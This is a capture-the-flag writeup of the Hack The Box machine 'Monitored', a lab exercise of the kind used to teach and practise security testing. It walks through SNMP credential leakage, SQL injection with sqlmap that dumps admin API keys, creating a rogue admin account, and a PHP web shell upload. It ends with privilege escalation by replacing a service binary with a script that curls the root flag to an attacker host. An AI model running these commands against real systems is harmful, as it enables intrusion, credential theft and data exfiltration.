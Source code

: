```yaml
---
title: HTB Monitored Writeup
author: Elus1nist
layout: post
date: 16 January 2023
imagesrc: https://labs.hackthebox.com/storage/avatars/d4988810825d26acb2e84ca0ac9feaf4.png
---
```

Welcome! This is my writeup of the new Season 4 Medium machine from HTB, Monitored. 

---
---
## Enumerating Services and Open Ports


So to start, as usual we run an nmap TCP port scan:

```
nmap -sC -sV -oN initial_scan 10.10.11.248 
```
This gives us the scan results of:

```
Nmap scan report for 10.10.11.248
Host is up (0.082s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
|   256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
|_  256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
80/tcp  open  http     Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
|_http-title: Nagios XI
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK
| Not valid before: 2023-11-11T21:46:55
|_Not valid after:  2297-08-25T21:46:55
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Alright, so now we have the following services that we can exploit:
- Port 22: SSH - This service will probably become accessible once we have some creds
- Port 80: HTTP - We can see a domain name dumped `nagios.monitored.htb` and a redirect so a dead end
- Port 389: LDAP - Since we have this service we can utilize ldap search or also assume SNMP and enumerate that
- Port 443: HTTPS - This is the main web page to be working with

---
---
## Enumerating SNMP

Enumerating SNMP with `public` community string:
```
snmpwalk -v2c -c public 10.10.11.248
STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc ~~redacted~~"
```
This gives us a set of credentials that can be used to log into - 
https://nagios.monitored.htb/nagios/

Once logged in we can then follow the security advisory and launch an SQL Injection attack against an admin endpoint

---
---
## SQL Injection to dump User data

Using the information from a security advisory, I leveraged SQLMap to dump the backend DB:
```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=500" | awk -F'"' '{print$12}'`" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users
```
| user_id | email | name | api_key | enabled | password | username | 
|---|---|---|---|---|---|---|
| 1       | admin@monitored.htb | Nagios Administrator | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C | nagiosadmin

We can now interact with the nagios API as an admin user!

---
---
## NagiosXI Admin Pivot

We can now use the nagiosxi API to create a new admin user:
```
curl -XPOST --insecure "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ElusnAdmin&password=myadmin&name=myadmin&email=myadmin@localhost&auth_level=admin"
```
We can now login to the nagiosxi portal as an admin

*Insert Image here*

---
---
## Setting Up for PHP File Upload

The following steps were taken so as to be 
- Login to /nagiosxi/
- Go to https://nagios.monitored.htb/nagiosxi/includes/components/custom-includes/manage.php
- Upload jpg -> rename to .htaccess -> rename back to test.jpg
- Upload php shell with jpg magic bytes: <?php system($_GET['cmd']); ?>;
- Visit the web shell and get a bash reverse shell
- pop shell as www-data

---
---
## Privilege Escalation Path

As an easy win, I first checked the output of `sudo -l` for commands that could be run as www-data:
```
sudo -l
User www-data may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/snmptt restart
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/messages
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/httpd/error_log
    (root) NOPASSWD: /usr/bin/tail -100 /var/log/mysqld.log
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/repair_databases.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
```

A subsequent search of the linpeas output shows us a writable service executable path:
`/usr/local/nagios/bin/nagios`

---
---
## Privilege Escalation Exploit

### Step 1:

So first we generate a reverse shell executable on the attacker local box `rootrev.sh`:
```
#!/bin/bash
ls_content=$(<"/root/root.txt")
curl -o test "http://10.10.16.44:9001/${ls_content}"
```

### Step 2:
Spin up a python web server (This will be used to fetch stage 1 of the exploit + Recieve data from exfil)
```
sudo python3 -m http.server 9001
```

### Step 3:
Replace nagios executable on target box
```
curl http://10.10.16.44:9001/rootrev.sh -o /usr/local/nagios/bin/nagios
```

### Step 4:
Restart nagios service and gain root flag

```
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

<img src="https://giffiles.alphacoders.com/206/206739.gif">